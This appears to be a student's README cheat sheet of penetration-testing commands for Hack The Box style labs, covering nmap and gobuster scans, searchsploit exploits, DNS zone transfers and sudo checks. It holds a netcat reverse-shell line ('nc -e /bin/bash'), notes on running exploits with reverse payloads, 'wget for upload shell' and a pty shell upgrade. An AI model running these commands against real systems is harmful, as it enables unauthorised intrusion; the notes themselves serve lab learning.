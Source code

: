 # don-t-forget
For us to easily remember the things we forgot
netcad 
nc -nvlp port for listening ports wich is we wanna use that
next type id next ls or pwd
nc -e /bin/bash host ip and port when we enter system 
nmap:
nmap -sS -A -v -p --min-rate 10000 host 
nmap -p- -sV port scanning ant its version
nmap -sV -sC -v From your scans, what version is FTP running on the target?
nmap -sS -p- -Pn --min-rate host ip for            to find all open ports
nmap -sC -sV -p htb
 nmap --script vuln -A 10.129.123.49 for finding all vulnerablitie

for finding specific ports 
1) nmap -p- --min-rate 10000 -oA nmap/allports -v 10.129.95.166
2)nmap -sC -sV   -p 22,80 10.129.95.166 






when the site open u must use /robots.txt
/cgi-bin/
/cgi-bin/user.sh

gobuster:
gobuster dir -u http://host -w /usr/share/worldlists/dirbuster/directory-list-2.3-medium.txt -x .ph,.txt,.conf,.doc,.sh
gobuster  dir -u  http://10.129.123.49 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log -t 50


nikto -h host

searcsploit (shell shock) -m
vim (payload extension)

if u have a payload for ex
python 34900.py rhost=ip(host) lhost=ip(host) payload=reverse(or bind)

we can compile exploit wirth gcc
gcc -o exploit 44298.c 
and ls 


python -m SimpleHTTPServer 80

chmod +x exploit for giving a permission(x using execute)

msfconsole
set rpath /cgi-bin/user.sh

sudo -l say to us u can run this commands

xkcd for explain vuln with nice comic



wpscan --url http://10.129.96.68 -e u,p --plugins-detection aggressive 


wget for upload shell

sudo -u scriptmanager /bib/bash this means u get a scriptmanager rank

next time ls -la shows to us permission  


dnszone using:
dig -t NS(name server)
dig axfr @nameserver nameserver

nslookup for finding nameserver

check the command injection

 python upgrade shell       python -c 'import pty; pty.spawn("/bin/bash")'
 
 ctrl u (for inspect source)
 
 ubuntu apache  2.2.22 precision for finding last ubuntu update
 and next gonna here  from mozilla: ubuntu release precise
